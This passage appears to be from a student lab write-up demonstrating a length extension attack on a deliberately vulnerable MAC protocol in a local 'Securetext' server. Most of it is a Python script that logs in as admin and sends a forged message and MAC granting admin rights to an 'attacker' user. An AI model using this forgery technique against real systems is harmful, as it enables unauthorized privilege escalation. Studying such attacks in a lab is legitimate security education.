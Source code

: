 From there, having already a vulnerable MAC protocol, I utilized the following script which was helped written through the use of AI and my own adaptations to act as a user logging in and performing a length extension attack with succesful results as shown here:
![](succesfullengthextensionattackscript-1.png)
![](lengthextensionsuccesswireshark.png).

```python
#Setup a length extension attack using materials gathered, to do so I edited the send_command_message in the SecuretextClient to the following:
import socket
import json
import hashlib


def send_command(sock, command_data):
    sock.sendall((json.dumps(command_data) + '\n').encode('utf-8'))
    return json.loads(sock.recv(4096).decode('utf-8'))

# Connect to server
HOST = "127.0.0.1"
PORT = 12345

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    
    # Login first
    login_command = {
        'command': 'LOGIN',
        'username': 'admin',  # Using admin account
        'password': 'password123'
    }
    
    print("== Logging in ==")
    response = send_command(s, login_command)
    print(response)
    
    if response['status'] == 'success':
        # Use hash_extender output
        hex_string = "434d443d5345545f51554f544126555345523d626f62264c494d49543d313030800000000000000000000000600100000000000026434d443d4752414e545f41444d494e26555345523d61747461636b6572"
        forged_mac = "18846eed63a94027f8c254c81d8b1474"
        
        # Convert hex to bytes and then to latin1 string
        forged_msg = bytes.fromhex(hex_string).decode('latin1')
        
        attack_command = {
            'command': 'COMMAND_MSG',
            'command_msg': forged_msg,
            'mac': forged_mac
        }

        print("\n== Sending Attack Payload ==")
        print(f"Extended message (hex): {hex_string}")
        print(f"Extended MAC: {forged_mac}")
        
        response = send_command(s, attack_command)
        print("\n== Server Response ==")
        print(json.dumps(response, indent=2))
```
